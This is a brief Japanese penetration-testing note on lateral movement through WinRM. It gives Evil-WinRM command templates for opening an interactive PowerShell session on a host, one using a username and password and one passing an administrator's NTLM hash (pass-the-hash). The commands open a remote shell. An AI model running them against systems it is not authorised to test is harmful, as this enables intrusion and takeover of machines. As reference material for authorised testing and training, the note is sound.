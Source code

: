# 横展開

## WinRM
WinRMサービスが有効(通常5985/tcp)かつ、資格情報とアクセス許可がある場合にはEvil-WinRMというツール使用し、インタラクティブなPoweShellを取得できる。
```
evil-winrm -i <ipアドレス> -u <ユーザ名> -p <パスワード>
```

NTLMハッシュがわかる場合、以下の通りでもシェルを貼れる
```
evil-winrm -i ホスト名 -u administrator -H ハッシュ
```